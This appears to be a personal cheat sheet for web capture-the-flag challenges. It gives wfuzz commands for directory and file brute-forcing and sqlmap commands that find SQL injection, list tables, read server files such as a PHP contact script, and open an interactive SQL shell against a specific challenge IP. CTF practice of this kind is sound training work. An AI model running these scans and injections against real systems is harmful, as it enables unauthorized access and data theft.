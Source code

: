 # Web Challanges

## Information Gathering

### scan for dirs
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/FUZZ

### scan for files
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/administrat/include/FUZZ.php

## SQL Exploits

### sqlmap

#### scan for SQL vulnerabilities
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1

#### list tables
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --tables

#### file structure, e.g. apache
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --common-files

#### read file
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --read-files=/var/www/html/mail/contact_me.php

#### interactive SQL shell
    # DB freelance
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 -D freelancer --sql-shell

## Deobfuscation

### js

[ JStillery ]( https://en.kali.tools/?p=1354 )

### php

https://www.unphp.net/
